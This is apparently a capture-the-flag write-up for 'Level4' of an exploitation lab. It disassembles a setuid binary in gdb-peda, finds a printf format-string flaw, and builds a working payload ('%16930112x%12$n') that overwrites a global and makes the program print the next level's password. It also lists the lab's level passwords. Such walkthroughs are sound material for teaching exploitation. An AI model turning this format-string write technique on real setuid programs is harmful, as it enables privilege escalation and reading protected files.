 # Level4 -

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level4 | `b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa` |
| level5 | `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

1. Connect to `level4` user

```shell
ssh level4@$SNOW_HOST -p 4242
# Enter the password

ls -l
> -rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
```

Notice there is a binary with level4 setuid and setgid.

2. Debug level4

Execute level4

```shell
./level4
(stdin) abcdef
> abcdef
```

Seems to be like previous levels.

Lets debug the binary

```shell
(gdb) info functions

> (...)
  0x08048444  p
  0x08048457  n
  0x080484a7  main
  (...)
```

```shell
gdb-peda$ pdisas main
# (...)
gdb-peda$ pdisas p
# (...)

gdb-peda$ pdisas n
  0x08048457 <+0>:     push   ebp
  0x08048458 <+1>:     mov    ebp,esp
  0x0804845a <+3>:     sub    esp,0x218
  0x08048460 <+9>:     mov    eax,ds:0x8049804              # 0x8049804 <stdin@@GLIBC_2.0>
  0x08048465 <+14>:    mov    DWORD PTR [esp+0x8],eax
  0x08048469 <+18>:    mov    DWORD PTR [esp+0x4],0x200     # 0x200
  0x08048471 <+26>:    lea    eax,[ebp-0x208]
  0x08048477 <+32>:    mov    DWORD PTR [esp],eax
  0x0804847a <+35>:    call   0x8048350 <fgets@plt>         # call fgets(buf, 0x200, stdin)
  0x0804847f <+40>:    lea    eax,[ebp-0x208]
  0x08048485 <+46>:    mov    DWORD PTR [esp],eax
  0x08048488 <+49>:    call   0x8048444 <p>                 # call p()
  0x0804848d <+54>:    mov    eax,ds:0x8049810              # 0x8049810 <m>:  0x00000000
  0x08048492 <+59>:    cmp    eax,0x1025544                 # compare 0x1025544 (16930116) and 0x8049810
  0x08048497 <+64>:    jne    0x80484a5 <n+78>
  0x08048499 <+66>:    mov    DWORD PTR [esp],0x8048590     # 0x8048590: "/bin/cat /home/user/level5/.pass"
  0x080484a0 <+73>:    call   0x8048360 <system@plt>        # call system()
  0x080484a5 <+78>:    leave
  0x080484a6 <+79>:    ret
```

After looking the condition, we want write the value `0x1025544` at the address `0x8049810`.

We need to know the buffer address.

```bash
gdb-peda$ b *p+17 # just after printf
gdb-peda$ run <<< AAAA
[------------------------------------stack-------------------------------------]
0000| 0xbffff410 --> 0xbffff440 ("AAAA\n")
0004| 0xbffff414 --> 0xb7ff26b0 (pop    edx)
0008| 0xbffff418 --> 0xbffff684 --> 0xb7fd0ff4 --> 0x1a4d7c
0012| 0xbffff41c --> 0xb7fd0ff4 --> 0x1a4d7c
0016| 0xbffff420 --> 0x0
0020| 0xbffff424 --> 0x0
0024| 0xbffff428 --> 0xbffff648 --> 0xbffff658 --> 0x0
0028| 0xbffff42c --> 0x804848d (<n+54>: mov    eax,ds:0x8049810)
0032| 0xbffff430 --> 0xbffff440 ("AAAA\n")
0036| 0xbffff434 --> 0x200
0040| 0xbffff438 --> 0xb7fd1ac0 --> 0xfbad2088
0044| 0xbffff43c --> 0xb7ff37d0 (<__libc_memalign+16>:  add    ebx,0xb824)
0048| 0xbffff440 ("AAAA\n")
[------------------------------------------------------------------------------]
```

The buffer pointer is 12 addresses before the printf argument.

So we can build our exploit:

- `m` address: `0x8049810` <=> `\x10\x98\x04\x08`
- value: `0x1025544 - 0x4 = 0x1025540` <=> 16930112
- buffer relative address: `%12%n`

=> `"\x10\x98\x04\x08" + "%16930112x" + "%12$n"`

Lets try

```bash
./level4 < <(python -c 'print("\x10\x98\x04\x08" + "%16930112x" + "%12$n")')
> (...)
  0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

---

## Sources

### Format string vulnerability

- [Memory segmentation - Cheat sheet](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)
- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings/)

### Shell

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man system](https://linux.die.net/man/3/system)

